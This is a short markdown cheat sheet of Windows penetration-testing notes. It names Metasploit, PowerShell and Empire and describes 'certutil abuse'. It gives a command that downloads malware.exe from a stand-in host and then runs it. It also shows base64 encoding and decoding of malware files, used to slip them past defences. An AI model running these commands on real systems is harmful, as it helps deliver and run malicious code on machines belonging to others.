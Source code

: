 # Windows Pentest Notes
## Table of Contents
[Tools](#Useful tools)
### Useful Tools
`metasploit` of course

and `powershell` is always your best friend

`empire` for creating malicious pwershell script, avalible on [github](https://github.com/EmpireProject/Empire)

### Certutil abuse
#### Download files & execute
`certutil.exe -urlcache -split -f http://www.example.com/malware.exe`

then `malware.exe`
#### Hash Files
`certutil.exe -hashfile file`(SHA-1)

`certutil.exe -hashfile file SHA256/MD5` (for SHA-256 or MD5 Hash)
#### Files to baes64 code 
encode:

`certutil.exe -encode malware.exe malware.txt`

decode:

`certutil.exe -decode malware.txt malware.exe`
